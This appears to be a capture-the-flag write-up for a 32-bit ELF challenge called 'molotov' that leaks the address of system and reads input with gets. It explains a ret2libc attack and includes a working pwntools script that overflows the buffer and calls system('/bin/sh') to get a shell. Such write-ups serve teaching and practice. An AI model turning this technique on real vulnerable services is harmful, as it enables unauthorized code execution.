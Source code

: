 
![task1](imgs/1.png)
### Information
It was a warmup challenge, 
We were given a 32bit ELF file.
![task1](imgs/2.png)
Running the binary, we can see that it's leaking an address, then asking for an input.
![task1](imgs/3.png)

While decompiling using IDA, we can see that the program is leaking system address, then reading an input using gets, and as we know , gets is a dangerous function that leads to buffer overflow.

### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
p = process("./molotov")
system = int("0x"+p.recvline().rstrip("\n"),16)
base = system - libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.warn("base = "+hex(base))
payload = ""
payload += "A"*32
payload += p32(system)
payload += "JUNK"
payload += p32(binsh)
p.sendline(payload)
p.interactive()
```
